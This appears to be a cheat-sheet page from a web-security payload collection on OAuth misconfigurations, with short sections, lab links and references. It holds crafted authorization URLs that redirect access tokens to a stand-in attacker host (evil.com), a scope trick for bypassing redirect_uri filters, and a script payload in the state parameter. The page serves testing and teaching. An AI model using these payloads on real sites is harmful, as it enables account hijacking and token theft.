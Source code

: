 # OAuth Misconfiguration

> OAuth is a widely-used authorization framework that allows third-party applications to access user data without exposing user credentials. However, improper configuration and implementation of OAuth can lead to severe security vulnerabilities. This document explores common OAuth misconfigurations, potential attack vectors, and best practices for mitigating these risks. 


## Summary

- [Stealing OAuth Token via referer](#stealing-oauth-token-via-referer)
- [Grabbing OAuth Token via redirect_uri](#grabbing-oauth-token-via-redirect---uri)
- [Executing XSS via redirect_uri](#executing-xss-via-redirect---uri)
- [OAuth private key disclosure](#oauth-private-key-disclosure)
- [Authorization Code Rule Violation](#authorization-code-rule-violation)
- [Cross-Site Request Forgery](#cross-site-request-forgery)
- [Labs](#labs)
- [References](#references)


## Stealing OAuth Token via referer

> Do you have HTML injection but can't get XSS? Are there any OAuth implementations on the site? If so, setup an img tag to your server and see if there's a way to get the victim there (redirect, etc.) after login to steal OAuth tokens via referer - [@abugzlife1](https://twitter.com/abugzlife1/status/1125663944272748544)


## Grabbing OAuth Token via redirect_uri

Redirect to a controlled domain to get the access token

```powershell
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

Redirect to an accepted Open URL in to get the access token

```powershell
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
https://www.example.com/oauth2/authorize?[...]&redirect_uri=https%3A%2F%2Fapps.facebook.com%2Fattacker%2F
```

OAuth implementations should never whitelist entire domains, only a few URLs so that “redirect_uri” can’t be pointed to an Open Redirect.

Sometimes you need to change the scope to an invalid one to bypass a filter on redirect_uri:

```powershell
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```


## Executing XSS via redirect_uri

```powershell
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```


## OAuth private key disclosure

Some Android/iOS app can be decompiled and the OAuth Private key can be accessed.


## Authorization Code Rule Violation

> The client MUST NOT use the authorization code  more than once.  

If an authorization code is used more than once, the authorization server MUST deny the request 
and SHOULD revoke (when possible) all tokens previously issued based on that authorization code.


## Cross-Site Request Forgery

Applications that do not check for a valid CSRF token in the OAuth callback are vulnerable. This can be exploited by initializing the OAuth flow and intercepting the callback (`https://example.com/callback?code=AUTHORIZATION_CODE`). This URL can be used in CSRF attacks.

> The client MUST implement CSRF protection for its redirection URI. This is typically accomplished by requiring any request sent to the redirection URI endpoint to include a value that binds the request to the user-agent's authenticated state. The client SHOULD utilize the "state" request parameter to deliver this value to the authorization server when making an authorization request.


## Labs

* [PortSwigger - Authentication bypass via OAuth implicit flow](https://portswigger.net/web-security/oauth/lab-oauth-authentication-bypass-via-oauth-implicit-flow)
* [PortSwigger - Forced OAuth profile linking](https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking)
* [PortSwigger - OAuth account hijacking via redirect_uri](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri)
* [PortSwigger - Stealing OAuth access tokens via a proxy page](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)
* [PortSwigger - Stealing OAuth access tokens via an open redirect](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)


## References

- [All your Paypal OAuth tokens belong to me - asanso - November 28, 2016](http://blog.intothesymmetry.com/2016/11/all-your-paypal-tokens-belong-to-me.html) 
- [OAuth 2 - How I have hacked Facebook again (..and would have stolen a valid access token) - asanso - April 8, 2014](http://intothesymmetry.blogspot.ch/2014/04/oauth-2-how-i-have-hacked-facebook.html)
- [How I hacked Github again - Egor Homakov - February 7, 2014](http://homakov.blogspot.ch/2014/02/how-i-hacked-github-again.html)
- [How Microsoft is giving your data to Facebook… and everyone else - Andris Atteka - September 16, 2014](http://andrisatteka.blogspot.ch/2014/09/how-microsoft-is-giving-your-data-to.html)
- [Bypassing Google Authentication on Periscope's Administration Panel - Jack Whitton - July 20, 2015](https://whitton.io/articles/bypassing-google-authentication-on-periscopes-admin-panel/)